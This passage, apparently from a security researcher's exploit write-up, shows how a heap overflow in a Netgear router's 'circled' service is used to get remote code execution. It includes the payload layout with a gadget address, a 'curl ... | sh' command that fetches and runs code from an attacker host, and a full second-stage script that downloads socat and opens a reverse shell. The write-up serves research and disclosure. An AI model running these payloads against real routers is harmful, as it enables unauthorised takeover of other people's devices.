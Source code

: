 As we found with dynamic analysis, the beginning of the string is usually overwritten by subsequent heap allocations, so we put the commands nearly at the end of the string. The `circleinfo.txt` file will contain the line:
```shell
$ cat /tmp/circleinfo.txt
AA(...)curl${IFS}-k${IFS}https://A.B.C.D/exploit|sh;<saved_pc> AA(...)curl${IFS}-k${IFS}https://A.B.C.D/exploit|sh;<saved_R4>
```
With:

* saved_PC equal to the magic gadget \x78\xEC (LSB form)
* saved_R4 from 0x246ac to 0x296ac to parse the heap

and we use a webserver which for each request gives a different file with a different saved $R4.

#### Optimizing payload
Bruteforcing heap addresses works, but it is slow due to internal timers in the circled binary (3 or 4 seconds between each try). In order to fasten up the attack, we chose to parse the heap with a step of 256 bytes and use a specific payload before the shell script.

This payload is made of 260 ‘a’ and a semicolon ‘;’, followed by the commands. If $R0 points anywhere in the long ‘aaa’ part, we end with the call:
```shell
system("a(...)a;curl${IFS}-k${IFS}https://A.B.C.D/exploit|sh;")
```
 The shell treats ‘a(. . . )a’ such as a command, fails to execute it (with a “command not found error”), and continues with the curl command, and so with the exploit.

This strategy has been found to be effective and we quickly gain a shell.

The “exploit” is really simple. We download a socat binary and launch a reverse shell. Although this second stage is unnecessary, we prefer to keep the first payload as small as possible (curl piped to shell) to maximize the chance to find it in full in heap memory. We are able to put any commands in the “exploit” so we implement a lightshow on the Netgear router with the visible leds:


```shell
#!/bin/sh
#Any .com name will point to attacker machine, thanks to dnsmasq config
HOST=bla.com
PORT=4242
# Download socat for the reverse shell
curl -k https://${HOST}/s/socat -o /tmp/socat
chmod +x /tmp/socat
# Reverse shell
# Necessary to manually grab the IP because the statically linked socat can't resolve it
IP=$(ping -c1 ${HOST} | head -n1 | cut -d'(' -f2 | cut -d')' -f1)
/tmp/socat exec:/bin/sh,pty,stderr,setsid,sigint,sane tcp:${IP}:${PORT} &
# And now, a small lightshow :-)
while true; do
  leddown
  sleep 1
  ledup
  sleep 1
done
```
